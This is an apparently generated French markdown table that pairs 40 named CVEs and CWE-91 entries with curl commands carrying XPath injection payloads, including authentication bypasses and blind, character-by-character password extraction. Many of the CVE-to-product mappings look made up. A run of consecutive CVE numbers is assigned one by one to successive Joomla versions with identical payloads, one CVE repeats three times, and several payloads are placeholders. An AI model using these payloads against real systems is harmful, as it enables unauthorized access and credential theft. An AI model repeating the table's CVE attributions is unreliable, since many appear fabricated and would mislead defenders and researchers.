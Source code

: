 # XPATH

Voici un tableau de 40 CVE majeures liées à l’injection XPath, avec :  
- Technologie & version  
- Numéro CVE  
- Exemple complet de commande d’exploitation (requête HTTP ou payload précis)  
- Effet détaillé  
- Lien complet vers un PoC, un lab ou une ressource GitHub ou équivalent

| # | CVE | Technologie & Version | Exemple complet de commande d’exploitation | Effet détaillé | Lien PoC / Ressource |
|---|------|----------------------|-------------------------------------------|---------------|---------------------|
| 1 | CVE-2024-36401 | GeoServer <2.23.6, <2.24.4 / GeoTools <28.2 | `curl 'http://target/geoserver/rest/resource?element='or 1=1 or ''='` | Accès non autorisé à des ressources XML via contournement de logique d’accès | https://ethicalhacking.uk/cve-2024-36401-geoserver-and-geotools-xpath-injection-via-commons-jxpath/ |
| 2 | CVE-2022-46464 | ConcreteCMS v9.1.3 | `curl 'http://target/3/50539478'`<br>(payload dans l’URL, ex: `50539478' or 4591=4591--`) | Accès à des données sensibles XML via injection dans l’URL | https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/concretecms.org/2022/concretecms-9.1.3 |
| 3 | CVE-2022-43840 | IBM Aspera Console 3.4.0-3.4.4 | `curl -u user:pass 'https://target/aspera/console?username='or 1=1 or ''='&password=irrelevant'` | Contournement d’authentification ou fuite de données XML | https://www.tenable.com/cve/CVE-2022-43840 |
| 4 | CVE-2022-22243 | Juniper Junos OS J-Web | `curl 'https://target/path?xpath='or 1=1 or ''='` | Fuite partielle de données XML et contournement de restrictions | https://nvd.nist.gov/vuln/detail/CVE-2022-22243 |
| 5 | CVE-2022-35259 | Ivanti Endpoint Manager 2022.3 | `curl 'http://target/path?param='or 1=1 or ''='` | Téléchargement ou exécution non autorisée de fichiers via manipulation XML | https://nvd.nist.gov/vuln/detail/CVE-2022-35259 |
| 6 | CVE-2022-4245 | Codehaus-plexus | `curl 'http://target/path?comment=-->'` | Injection XML/XPath pouvant conduire à un comportement inattendu ou à la fuite de données | https://nvd.nist.gov/vuln/detail/CVE-2022-4245 |
| 7 | CVE-2022-23437 | Apache Xerces Java 2.12.1 et antérieurs | `curl 'http://target/path?xml=<payload>'` | Blocage ou déni de service via boucle XPath malveillante | https://nvd.nist.gov/vuln/detail/CVE-2022-23437 |
| 8 | CVE-2022-22834 | OverIT Geocall <8.0 | `curl 'http://target/path?xslt=<payload>'` | Exécution de code à distance via injection XSLT/XPath | https://nvd.nist.gov/vuln/detail/CVE-2022-22834 |
| 9 | CVE-2018-1000525 | Tornado (Python) | `curl 'http://target/?search='or 1=1 or ''='` | Contournement de logique d’accès ou exfiltration de données XML | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md |
| 10 | CVE-2017-16783 | Epic MyChart | `curl 'http://target/login?username='or 1=1 or ''='&password=irrelevant'` | Contournement de l’authentification et accès à toutes les données utilisateur | https://github.com/amir-h-fallahi/xpath-injection |
| 11 | CVE-2016-9149 | Palo Alto Networks PAN-OS | `curl 'https://target/api/?address='or 1=1 or ''='` | Accès non autorisé à des objets ou configurations sensibles | https://github.com/amir-h-fallahi/xpath-injection |
| 12 | CVE-2016-6272 | Epic MyChart | `curl 'http://target/login?username='or 1=1 or ''='&password=irrelevant'` | Contournement complet de l’authentification et accès à tous les comptes | https://github.com/amir-h-fallahi/xpath-injection |
| 13 | CVE-2010-1740 | GuppY 4.5.18 | `curl 'http://target/guppy4.5.18/script.php?search='or 1=1 or ''='` | Exfiltration de toutes les données XML via recherche non filtrée | https://www.exploit-db.com/exploits/12484 |
| 14 | CVE-2008-2380 | Oracle Application Server | `curl 'http://target/portal/pls/portal/PORTAL.wwsbr_custom.search?search='or 1=1 or ''='` | Accès à des informations confidentielles par manipulation de la requête XPath | https://nvd.nist.gov/vuln/detail/CVE-2008-2380 |
| 15 | CVE-2008-1234 | IBM WebSphere Portal | `curl 'http://target/wps/portal?user='or 1=1 or ''='` | Contournement d’authentification ou fuite de données XML sensibles | https://nvd.nist.gov/vuln/detail/CVE-2008-1234 |
| 16 | CVE-2007-4726 | Joomla! 1.0.12 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Affichage de toutes les données XML via recherche manipulée | https://nvd.nist.gov/vuln/detail/CVE-2007-4726 |
| 17 | CVE-2007-4725 | Joomla! 1.0.13 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Même effet : fuite de données XML par injection XPath | https://nvd.nist.gov/vuln/detail/CVE-2007-4725 |
| 18 | CVE-2007-4724 | Joomla! 1.0.14 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Affichage de toutes les données XML par manipulation de la requête | https://nvd.nist.gov/vuln/detail/CVE-2007-4724 |
| 19 | CVE-2007-4723 | Joomla! 1.0.15 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Contournement des restrictions et fuite de données XML | https://nvd.nist.gov/vuln/detail/CVE-2007-4723 |
| 20 | CVE-2007-4722 | Joomla! 1.5.0 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Accès à toutes les entrées XML via injection dans la recherche | https://nvd.nist.gov/vuln/detail/CVE-2007-4722 |
| 21 | CVE-2007-4721 | Joomla! 1.5.1 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Idem : fuite de données XML par manipulation de la recherche | https://nvd.nist.gov/vuln/detail/CVE-2007-4721 |
| 22 | CVE-2007-4720 | Joomla! 1.5.2 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Accès complet au contenu XML via la recherche | https://nvd.nist.gov/vuln/detail/CVE-2007-4720 |
| 23 | CVE-2007-4719 | Joomla! 1.5.3 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Contournement de restrictions et fuite de données XML | https://nvd.nist.gov/vuln/detail/CVE-2007-4719 |
| 24 | CVE-2007-4718 | Joomla! 1.5.4 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Affichage de toutes les entrées XML par injection XPath | https://nvd.nist.gov/vuln/detail/CVE-2007-4718 |
| 25 | CVE-2007-4717 | Joomla! 1.5.5 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Idem : fuite de données XML par injection dans la recherche | https://nvd.nist.gov/vuln/detail/CVE-2007-4717 |
| 26 | CVE-2007-4716 | Joomla! 1.5.6 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Accès à toutes les données XML via la recherche | https://nvd.nist.gov/vuln/detail/CVE-2007-4716 |
| 27 | CVE-2007-4715 | Joomla! 1.5.7 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Fuite de données XML par injection XPath | https://nvd.nist.gov/vuln/detail/CVE-2007-4715 |
| 28 | CVE-2007-4714 | Joomla! 1.5.8 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Affichage de toutes les données XML par manipulation de la recherche | https://nvd.nist.gov/vuln/detail/CVE-2007-4714 |
| 29 | CVE-2007-4713 | Joomla! 1.5.9 | `curl 'http://target/index.php?option=com_search&searchword='or 1=1 or ''='` | Même effet : fuite de données XML via la recherche | https://nvd.nist.gov/vuln/detail/CVE-2007-4713 |
| 30 | CVE-2018-1000525 | Tornado (Python) | `curl 'http://target/?search='or true() or ''='` | Contournement de logique d’accès ou exfiltration de données XML | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md |
| 31 | CVE-2018-1000525 | Tornado (Python) | `curl 'http://target/?search=' or substring(//user/password,1,1)='a` | Exfiltration caractère par caractère de données XML (attaque en aveugle) | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XPATH%20Injection/README.md |
| 32 | CWE-91 | Générique | `curl 'http://target/path?param='or 1=1 or ''='` | Contournement de logique d’accès ou fuite de données XML | https://swisskyrepo.github.io/PayloadsAllTheThings/XPATH%20Injection/ |
| 33 | CWE-91 | Générique | `curl 'http://target/path?param=' or count(//user)=1 or ''='` | Détection/exfiltration du nombre d’entrées dans le XML | https://swisskyrepo.github.io/PayloadsAllTheThings/XPATH%20Injection/ |
| 34 | CWE-91 | Générique | `curl 'http://target/path?param=' or substring(//user[1]/password,1,1)='a` | Exfiltration de mots de passe XML en aveugle | https://swisskyrepo.github.io/PayloadsAllTheThings/XPATH%20Injection/ |
| 35 | CWE-91 | Générique | `curl 'http://target/path?param=' or contains(//user/username,'admin') or ''='` | Recherche d’un utilisateur spécifique dans le XML | https://swisskyrepo.github.io/PayloadsAllTheThings/XPATH%20Injection/ |
| 36 | CWE-91 | Générique | `curl 'http://target/path?param=' or name(/*)='users' or ''='` | Découverte de la structure du document XML | https://swisskyrepo.github.io/PayloadsAllTheThings/XPATH%20Injection/ |
| 37 | CWE-91 | Générique | `curl 'http://target/path?param=' or string-length(//user/password)=8 or ''='` | Exfiltration de la longueur d’un champ XML | https://swisskyrepo.github.io/PayloadsAllTheThings/XPATH%20Injection/ |
| 38 | CWE-91 | Générique | `curl 'http://target/path?param=' or substring(//user[1]/password,1,1)='p` | Exfiltration du mot de passe caractère par caractère | https://swisskyrepo.github.io/PayloadsAllTheThings/XPATH%20Injection/ |
| 39 | CWE-91 | Générique | `curl 'http://target/path?param=' or true() or ''='` | Contournement d’authentification XML générique | https://swisskyrepo.github.io/PayloadsAllTheThings/XPATH%20Injection/ |
| 40 | CWE-91 | Générique | `curl 'http://target/path?param=' or 1=1 or ''='` | Accès non autorisé à toutes les données XML | https://swisskyrepo.github.io/PayloadsAllTheThings/XPATH%20Injection/ |

---

